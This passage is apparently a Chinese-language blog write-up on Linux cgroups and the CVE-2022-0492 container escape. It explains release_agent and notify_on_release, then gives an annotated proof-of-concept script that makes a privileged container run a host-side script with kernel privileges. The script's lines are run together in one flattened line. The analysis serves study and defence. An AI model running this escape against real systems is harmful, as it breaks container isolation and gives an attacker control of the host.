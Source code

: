  **cgroups的使用**

从这里开始的知识和漏洞相关性很大了。注意以下加粗字体，和漏洞利用的关系较大。在Linux中，
**用户若想操作cgroup需要使用mount命令挂载cgroup文件系统** ，命令格式为：mount -t cgroup -o <subsystem>
<name> <path>其中`<subsystem>`为cgroup子系统名称，`<name>`为挂载名称，`<path>`为挂载路径。  
若想 **将某个进程加入到某一个cgroup的子系统中**
进行相应的管理和限制，通常的方法是将此进程/进程组ID加入到此子系统挂载的虚拟文件系统下的`cgroup.procs`文件中，命令如下：

    
    
    echo <PID> > <cgroup-mount-path>/cgroup.procs

其中，`<PID>`为要加入cgroup子系统的进程/进程组ID， `<cgroup-mount-path>`为对应子系统的挂载目录。
**大多数Linux已经自动在系统启动时候将cgroup虚拟文件系统挂载到了**` /sys/fs/cgroup` **目录中**
，这个操作是由systemd[2]完成的。
**但是这个自动挂载目录的操作权限较高，用户也可以自行将cgroups虚拟文件系统挂载到用户权限可及的目录下。**
我们大致看下每个子系统包含的内容：![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220320222758.png)2022-03-13-20-24-40.png捡几个重要的讲一下：

  *  tasks：加入到此cgroup子系统中的进程，以PID列表的形式存储

  *   **cgroup.procs：加入此cgroup中的进程/进程组列表**

  *   **notify_on_release：用于标记当此cgroup子系统的所有进程都退出后是否运行release_agent程序，0为默认不运行，1为运行，如果在当前子系统中新建了子系统，则默认继承这个配置**

  *  **release_agen** **t** （只存在顶层cgroup子系统中）：当上面的notify_on_release设置为1时，此cgroup子系统的所有进程都退出后 **以内核权限** 运行的程序

  
下面是我以特权容器配置(`docker run --privileged --name test-nginx-privileged -d
nginx`)启动的Nginx
Docker容器中的CPU子系统包含的内容和部分配置值：![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220320222759.png)2022-03-13-21-39-22.png至此，我们对Linux
cgroup了解大概了，开始看漏洞。 **0x03 漏洞分析**
回到CVE-2022-0492这个漏洞，粗看国外Researcher写的漏洞分析除了照做能复现成功以外，会产生很多疑问，比如：如何想到的这么做？为什么这样算漏洞？为啥要新建Namespace，为啥要使用一次unshare？不使用会怎样？直到把文章中引用的另一篇文章：Understanding
Docker container escapes[3]阅读并理解后，才懂得是怎么回事儿。我按照时间线来重新分析下这个容器逃逸姿势如何变成漏洞的。 **>**
**>**

 **特权容器中的逃逸骚姿势（此时不是漏洞)**

2019年，Felix Wilhelm在Twitter上发了一个容器逃逸的骚姿势并且分享了一枚PoC：

> Quick and dirty way to get out of a privileged k8s pod or docker container
> by using cgroups release_agent feature.

我修改了一些不太好懂的命令，并且重新命名了，PoC整理如下：

  *   *   *   *   *   *   *   *   * 

    
    
    cgroup_dir=/sys/fs/cgroup/rdma  # 选择一个包含release_agent的cgroup子系统控制器，默认只有rdma合适，可以使用cgroup_dir=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`进行查找和定位mkdir -p $cgroup_dir/test_subsystem  # 在其中创建一个子系统test_subsystemecho 1 >$cgroup_dir/test_subsystem/notify_on_release  # 将test_subsystem子系统中的notify_on_release配置为1用来在全部进程都退出该cgroup子系统后触发内核调用release_agenthost_overlay2_fs_dir=`sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /etc/mtab`  # 从/etc/mtab中提取upperdir,此路径指向宿主机的Overlay2fs文件系统的挂载点，容器内rootfs未提交的文件变动都会在此体现echo '#!/bin/sh' > /script  # 在容器根目录下创建script文件并写入执行脚本(Payload)echo "touch /hacked_by_tunan_use_cg_notify_on_release_and_privileged_containter" >> /script  # 在容器根目录下创建script文件并写入执行脚本(Payload)echo "$host_overlay2_fs_dir/script" > $cgroup_dir/release_agent  # 将host_overlay2_fs_dir与script目录拼接，目的是在notify_on_release运行时指向容器外的宿主机中的script文件chmod a+x /script  # 给script增加执行权限sh -c "echo \$\$ > $cgroup_dir/test_subsystem/cgroup.procs"  # 将一个执行即退出的进程ID写入到此cgroup子系统的cgroup.procs中去触发notify_on_release，在这里写入的是sh进程自己的PID
